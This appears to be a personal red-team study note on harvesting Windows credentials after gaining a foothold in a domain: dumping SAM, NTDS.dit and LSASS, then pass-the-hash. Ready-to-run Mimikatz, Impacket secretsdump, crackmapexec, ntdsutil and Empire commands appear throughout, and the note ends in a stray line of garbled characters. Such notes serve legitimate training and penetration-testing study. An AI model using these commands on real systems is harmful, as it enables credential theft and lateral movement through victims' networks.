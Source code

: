 - After compromising a domain user on the network, the next step is to gather all usernames, hashes, sensitive info., and anything that helps us pivot to compromise other machines within the network.
- This will trigger a lot of noise and will trip off alerts if we are on a stealthy red teaming engagement.


## How to steal hashes of users after getting a foothold?
1. DSync attacks
2. Extracting hashes from NTDS.dit
3. Another method is dumping lsass.exe process which stores hashes for users with active sessions to the computer.

[Credential Dumping using SAM](https://www.hackingarticles.in/credential-dumping-sam/)
```Mimikatz Way
privilege::debug
token::elevate
lsadump::sam
```
Impacket Way of dumping SAM
```Impacket
./secretsdump.py -sam /root/Desktop/sam -system /root/Desktop/system LOCAL
```
Using crackmapexec
```Crackmapexec
crackmapexec smb 192.168.1.105 -u 'Administrator' -p 'Ignite@987' --sam
```

[Dumping NTDS.dit](https://www.hackingarticles.in/credential-dumping-ntds-dit/) and [Vault Notes](obsidian://open?vault=THM%20Networks&file=Knowledge%20Base%2FPass-The-Hash%2FWhat%20is%20NTDS-dit)
```Crackmapexec
crackmapexec smb 192.168.1.105 -u 'Administrator' -p 'Ignite@987' --ntds drsuapi
```

```Powershell
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"

#After this we get the output as hive files which we then transfer back to our local machine

./secretsdump.py -ntds /root/ntds.dit -system /root/SYSTEM LOCAL
#All we need is to provide the path of the SYSTEM hive file and the NTDS.dit file and we are good to go. secretsdump will extract the hashes for us
```

[Dumping LSASS](https://www.hackingarticles.in/credential-dumping-local-security-authority-lsalsass-exe/)
```Task_Manager
In your local machine (target) and open the task manager, navigate to processes for exploring running process of lsass.exe and make a right-click to explore its snippet.  Choose “Create Dump File” option which will dump the stored credential.
```
- After saving the dump file from task manager, use mimikatz to get data out of the `.dmp` file.
```mimikatz
privilege::debug
sekurlsa::minidump C:\Users\raj\AppData\Local\Temp\lsass.DMP
sekurlsa::logonpasswords
```
Empire way
```powershell_empire
usemodule credentials/mimikatz/lsadump
execute
```
Crackmapexec`
```crackmapexec
crackmapexec smb 192.168.1.105 -u 'Administrator' -p 'Ignite@987' --lsa
```
Tools which can be used for getting hashes
1. Mimikatz
![[Pasted image 20221010152506.png]]


#### There are 2 techniques used for lateral movement for impersonating valid user accounts or service account using hashes
1. `Pass the hash attack`
2. `Over Pass the hash attack`


## 1. Pass-The-Hash - Local Admin rights required
- This is the initial attack where an attacker uses the dumped hashes to perform a valid NTLM authentication without accessing cleartext passwords and see if the compromised user can access other resources or systems on the network.
- So here the attacker impersonates the user from one application to another, they often engage in hash harvesting throughout the system which can be used to access more areas of the network, add account privileges, target a privileged account and set up backdoors and other gateways to enable future access.


- After getting the hashes, now we need to authentication with the stolen password hash using Pass The Hash technique.

Using mimikatz, pass the hash can be conducted by the following command
```
mimikatz sekurlsa::pth /user:<compromised user> /domain:<THROWBACK.local /ntlm:<hash>
```
- Instead of `/ntlm`, we can also use `/aes128` or `/aes256` hash option in Mimikatz




### Another ways to pass the hash
[Blog](https://www.n00py.io/2020/12/alternative-ways-to-pass-the-hash-pth/)

EYVVYBVYBFVYBFVBYFBVBFVYFBVYFVYBFBYVY